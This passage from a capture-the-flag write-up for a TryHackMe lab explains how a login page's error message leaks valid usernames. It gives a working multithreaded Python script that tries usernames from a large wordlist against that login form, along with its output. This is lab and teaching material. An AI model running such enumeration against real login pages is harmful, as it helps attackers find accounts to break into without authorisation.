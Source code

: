 No luck.

When we try to guess an administrator level user's password, we found that the error output can be used for enumerating usernames:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105055255.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105055305.png)

**In here, we can write a simple python script to enumerate usernames:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    requestResult = requests.post(url, data=loginData)
    print(f'[*] Trying username: {username:20s}', end='\r')

    if 'No account found with that username.' not in requestResult.text:
        print(f'[+] Found valid username: {username}')

def main():
    url = 'http://wwbuddy.thm/login/index.php'

    with open('/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt', 'r') as fd:
        for line in fd:
            username = line.strip()

            thread = Thread(target=sendRequest, args=(url, username))
            thread.start()

            # You can adjust how fast of each thread start. 0.05s is recommended
            sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# python3 enum_usernames.py
[+] Found valid username: roberto        
[+] Found valid username: henry          
[+] Found valid username: Henry          
[+] Found valid username: Roberto        
[+] Found valid username: ROBERTO
```

